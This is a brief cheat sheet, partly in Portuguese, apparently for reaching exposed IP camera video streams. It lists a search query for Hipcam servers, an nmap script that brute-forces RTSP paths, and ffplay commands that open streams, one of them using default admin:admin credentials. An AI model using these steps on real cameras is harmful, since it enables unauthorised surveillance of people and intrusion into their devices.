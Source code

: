 
- Server: Hipcam RealServer has_screenshot:true
- nmap -p 554 --script rtsp-url-brute ip
- ffplay -rtsp_transport tcp -i rtsp://ip:554/11
- ffplay -rtsp_transport udp -i rtsp://ip:554/11
- ffplay -rtsp_transport tcp -i rtsp://admin:admin@SEU_IP:554/Streaming/Channels/101


- testar udp e tcp, dependendo uma das duas vai
